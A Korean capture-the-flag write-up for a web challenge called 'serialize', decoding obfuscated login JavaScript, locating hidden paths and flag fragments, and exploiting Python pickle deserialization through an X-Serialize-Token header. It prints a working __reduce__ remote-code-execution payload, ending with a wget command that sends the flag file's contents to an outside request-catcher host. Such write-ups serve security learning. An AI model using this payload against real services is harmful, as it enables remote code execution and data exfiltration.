







# serialize

먼저 웹서버에 접속하면 간단한 로그인 창이 나온다.
그리고 개발자 도구를 켜면 script에 jsfuck으로 인코딩 된 문자열을 확인 가능하다.



해당 문자를 디코딩하면 다음과 같다.

```
const _0x3645b3 = _0x4842;
function _0x4842(_0x19d358, _0x49968c) {
	const _0x2ad82b = _0x2ad8();
	return (
		(_0x4842 = function (_0x484299, _0x4da982) {
			_0x484299 = _0x484299 - 0x1f1;
			let _0x4c8636 = _0x2ad82b[_0x484299];
			return _0x4c8636;
		}),
		_0x4842(_0x19d358, _0x49968c)
	);
}
(function (_0x4ff4ae, _0x561f72) {
	const _0x2b38fa = _0x4842,
		_0x2d072e = _0x4ff4ae();
	while (!![]) {
		try {
			const _0x20be76 =
				parseInt(_0x2b38fa(0x1f5)) / 0x1 +
				(-parseInt(_0x2b38fa(0x206)) / 0x2) *
					(parseInt(_0x2b38fa(0x205)) / 0x3) +
				parseInt(_0x2b38fa(0x202)) / 0x4 +
				-parseInt(_0x2b38fa(0x1ff)) / 0x5 +
				(-parseInt(_0x2b38fa(0x1fd)) / 0x6) *
					(parseInt(_0x2b38fa(0x201)) / 0x7) +
				-parseInt(_0x2b38fa(0x1f2)) / 0x8 +
				(parseInt(_0x2b38fa(0x1fa)) / 0x9) * (parseInt(_0x2b38fa(0x1f9)) / 0xa);
			if (_0x20be76 === _0x561f72) break;
			else _0x2d072e['push'](_0x2d072e['shift']());
		} catch (_0x1a16c9) {
			_0x2d072e['push'](_0x2d072e['shift']());
		}
	}
})(_0x2ad8, 0xbdbb4);
const form = document[_0x3645b3(0x1fe)](_0x3645b3(0x200));
async function submitForm(_0x361a11) {
	const _0xbae53f = _0x3645b3,
		_0x261004 = await fetch(_0xbae53f(0x203), {
			method: 'POST',
			body: JSON[_0xbae53f(0x208)](_0x361a11),
			headers: { 'Content-Type': _0xbae53f(0x1f4) }
		});
	window[_0xbae53f(0x1f7)] = '/welcome.png';
}
form[_0x3645b3(0x1f8)](_0x3645b3(0x1f6), _0x3f6721 => {
	const _0x43e2d2 = _0x3645b3;
	_0x3f6721[_0x43e2d2(0x1f1)]();
	const _0x451641 = document[_0x43e2d2(0x204)](_0x43e2d2(0x1fc)),
		_0x12fab0 = document['getElementById'](_0x43e2d2(0x207));
	_0x451641[_0x43e2d2(0x1fb)] == 'dreky' &&
	_0x12fab0['value'] == 'ohyeahboiiiahhuhh'
		? submitForm({
				user: _0x451641['value'],
				pass: _0x12fab0[_0x43e2d2(0x1fb)]
		  })
		: alert(_0x43e2d2(0x1f3));
});
function _0x2ad8() {
	const _0x5aa71f = [
		'2115056nOLZur',
		'Invalid\x20username\x20or\x20password',
		'application/json',
		'206204rQEQbe',
		'submit',
		'location',
		'addEventListener',
		'4252550HZZkfV',
		'18etmbIj',
		'value',
		'username',
		'43194hBWQRV',
		'querySelector',
		'5935145KtOSgP',
		'.login-form',
		'238aTVShg',
		'6015272rbWZkU',
		'/login',
		'getElementById',
		'15cVIXSQ',
		'34886FmgdQH',
		'password',
		'stringify',
		'preventDefault'
	];
	_0x2ad8 = function () {
		return _0x5aa71f;
	};
	return _0x2ad8();
}

```

딱보면 수상한 문자열 dreky와 ohyeahboiiiahhuhh이 보이는데 해당 문자열을 아이디와 비밀번호로 로그인하면 /welcome.png를 볼 수 있다.
근데 여기선 딱히 의심되는 부분이 없어서 네트워크를 살펴본 결과 중간에 `/oH_y0u_F0unD_1t_19167`로 요청을 보내는걸 확인 가능했다.





해당 링크에 들어가면은 첫번째 FLAG를 발견 가능하다. `E4HX{oh_h3l1_`
그다음 볼 부분이 part1_style.css를 갖고오고 있는데 해당 css파일에서 또다른 경로를 발견할 수 있었다.


그리고 해당 링크에 요청을 보내면 응답 헤더에 `X-Serialize-Token`이 포함된 걸 볼 수 있다.



해당 헤더에 있는 `gASVIAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAVkcmVreZSFlFKULg==`을 base64 decode해서 보면은 대충 python pickle 직렬화된 내용인걸 확인 가능하다.

그리고 요청 헤더에 `X-Serialize-Token`을 지정해서 보내면 해당 헤더를 deserizlie하는것도 알 수 있었다.
그러면 악성 코드를 pickle serizlie 하면 되는데 pickle deserialize할 때 가장 유명하게 사용되는 `__reduce__`를 사용했다.
reduce 메소드는 파이썬 객체를 unpickling할 때 tuple을 반환해 주는 메서드인데 아무 검증 없이 unpickling하기에 여기에 악성 코드를 담으면 된다.<br>
참고 : https://hoppipolla0507.tistory.com/22

ex)

```
import pickle
import base64
import os
import requests

class RCE:
    def __reduce__(self):
        return (os.system, ("ls",))

payload = pickle.dumps(RCE())
print(base64.b64encode(payload))
```



리턴값이 0이 나온건 제대로 실행된 걸 확인 가능하다.
최종 payload는 아래와 같다.

```
import pickle
import base64
import os
import requests

class RCE:
    def __reduce__(self):
        return (os.system, ("wget https://jdhusai.request.dreamhack.games/$(cat FLAG)",))

payload = pickle.dumps(RCE())
print(base64.b64encode(payload).decode())
```



`FLAG : E4HX{oh_h3l1_n44www_y0u_8r0k3_5th_w4l1}`
